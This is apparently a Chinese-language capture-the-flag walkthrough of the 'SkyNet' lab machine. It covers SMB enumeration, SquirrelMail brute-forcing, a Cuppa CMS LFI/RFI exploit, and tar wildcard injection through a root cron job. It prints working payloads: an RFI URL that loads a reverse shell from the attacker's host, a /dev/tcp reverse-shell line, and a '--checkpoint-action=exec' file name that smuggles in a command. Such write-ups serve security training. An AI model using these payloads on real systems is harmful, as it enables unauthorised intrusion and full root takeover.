 # SkyNet

一个易受攻击的终结者主题Linux机器。

---

循例 nmap 扫

    22/tcp  open  ssh
    80/tcp  open  http
    110/tcp open  pop3
    139/tcp open  netbios-ssn
    143/tcp open  imap
    445/tcp open  microsoft-ds

web貌似没东西，扫一下

顺便看一下smb的anonymous下有没有东西，有四个文件

其中log2和log3都是空文件

attention.txt文件告诉我们系统出现漏洞，许多用户密码被更改，并且出现了疑似管理员的名字：miles dyson

log1.txt文件疑似密码表

---

看一下gobuster的扫描结果

其中有权访问的：

    /squirrelmail

进入这个页面跳转到了一个登录页面，

疑似cms版本

    SquirrelMail version 1.4.23 [SVN]

根据密码表，使用burp尝试爆破admin，无果，

想起刚刚的miles dyson，尝试爆破，成功

    cyborg007haloterminator

里面有几封关于miles dyson的邮件，其中一封包含他的smb密码

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">smbclient</font> //10.10.107.156/milesdyson <font color="#9755B3">-U</font> milesdyson
</pre>

在notes文件夹中有一大堆的markdown文件，但入目眼帘的是一个独一无二的txt文件：

    importent.txt

包含内容：

    1. Add features to beta CMS /45kra24zxs28v3yd
    2. Work on T-800 Model 101 blueprints
    3. Spend more time with my wife

该网页是他的主页：

    Miles Dyson个人主页

    迈尔斯·班尼特·戴森博士是神经网络处理器的发明者这导致了天网的发展
    一个计算机人工智能旨在控制电子链接武器并保卫美国。

到这里就没了，只好尝试对/45kra24zxs28v3yd进行扫描，还真扫出了一个登录页面：

    /administrator

尝试了之前的账号和密码，失败

看到是一个Cuppa CMS 去搜索有没有相关的cve

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">searchsploit</font> Cuppa CMS</pre>

存在一个LFI/RFI漏洞

虽然我们不知道任何版本信息，但此时我们别无选择，放手一搏吧

POC:

    http://10.10.107.156/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

成功回显passwd

尝试RFI进行reverse shell:

攻击机：

    python3 -m http.server 8000

    新建窗口：nc -vlnp 8888

payload:

    http://10.10.107.156/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.17.14:8000/linux-tools_and_exp/rev_she11.php

成功getshell

升级shell

    python3 -c "import pty;pty.spawn('/bin/bash')"

在milesdyson的用户文件夹中发现了backups文件夹里面有一个shell文件：

    #!/bin/bash
    cd /var/www/html
    tar cf /home/milesdyson/backups/backup.tgz *

该文件夹下还有有个tgz文件，并且我发现每分钟都在读写

很明显了，这是一个定时任务

cat /etc/crontab:

    */1 *	* * *   root	/home/milesdyson/backups/backup.sh

很好，还是root权限执行，我们利用tar通配符注入尝试getroot

    cd /var/www/html
    touch ./reverse_shell.sh
    echo "/bin/bash -i >& /dev/tcp/10.11.17.14/8889 0>&1" > ./reverse_shell.sh
    echo ""  > "--checkpoint-action=exec=bash reverse_shell.sh"

成功getroot

<pre>Ncat: Connection from 10.10.15.88.
Ncat: Connection from 10.10.15.88:46754.
bash: cannot set terminal process group (2246): Inappropriate ioctl for device
bash: no job control in this shell
root@skynet:/var/www/html# whoami
whoami
root
</pre>
